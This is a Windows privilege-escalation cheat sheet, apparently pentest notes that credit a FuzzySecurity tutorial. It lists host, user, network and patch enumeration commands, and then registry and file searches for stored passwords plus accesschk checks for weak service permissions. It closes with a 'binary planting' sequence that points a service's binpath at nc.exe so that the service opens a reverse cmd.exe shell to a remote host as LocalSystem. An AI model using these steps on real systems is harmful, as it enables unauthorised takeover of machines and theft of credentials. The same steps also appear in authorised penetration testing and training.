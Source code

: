 # windows priv escalation

* What system are we connected to? 
  * systeminfo \| findstr /B /C:"OS Name" /C:"OS Version"
* Get the hostname and username \(if available\) 
  * hostname 
  * echo %username%
* Get users 
  * net users 
  * net user \[username\]
* Networking stuff 
  * ipconfig /all
* Printer? 
  * route print
* ARP-arific 
  * arp -A
* Active network connections 
  * netstat -ano
* Firewall fun \(Win XP SP2+ only\) 
  * netsh firewall show state 
  * netsh firewall show config
* Scheduled tasks 
  * schtasks /query /fo LIST /v
* Running processes to started services 
  * tasklist /SVC 
  * net start
* Driver madness 
  * DRIVERQUERY
* WMIC fun \(Win 7/8 -- XP requires admin\) 
  * `wmic /?`
  * `#Use wmic_info script!`
* WMIC: check patch level 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn
* Search pathces for given patch 
  * wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB.." /C:"KB.."
* AlwaysInstallElevated fun 
  * reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated 
  * reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
* Other commands to run to hopefully get what we need 
  * dir /s _pass_ == _cred_ == _vnc_ == _.config_ 
  * findstr /si password _.xml_ .ini \*.txt 
  * reg query HKLM /f password /t REG\_SZ /s 
  * reg query HKCU /f password /t REG\_SZ /s
* Service permissions 
  * sc query 
  * sc qc \[service\_name\]
* Accesschk stuff 
  * accesschk.exe /accepteula \(always do this first!!!!!\) 
  * accesschk.exe -ucqv \[service\_name\] \(requires sysinternals accesschk!\) 
  * accesschk.exe -uwcqv "Authenticated Users" \* \(won't yield anything on Win 8\) 
  * accesschk.exe -ucqv \[service\_name\]
  * Find all weak folder permissions per drive. 
    * accesschk.exe -uwdqs Users c: 
    * accesschk.exe -uwdqs "Authenticated Users" c:\
  * Find all weak file permissions per drive. 
    * accesschk.exe -uwqs Users c:\*.\*
    * accesschk.exe -uwqs "Authenticated Users" c:\.\*
* Binary planting 
  * sc config \[service\_name\] binpath= "C:\nc.exe -nv \[RHOST\] \[RPORT\] -e C:\WINDOWS\System32\cmd.exe" 
  * sc config \[service\_name\] obj= ".\LocalSystem" password= "" 
  * sc qc \[service\_name\] \(to verify!\) 
  * net start \[service\_name\]

Ref:  [http://www.fuzzysecurity.com/tutorials/16.html](http://www.fuzzysecurity.com/tutorials/16.html)

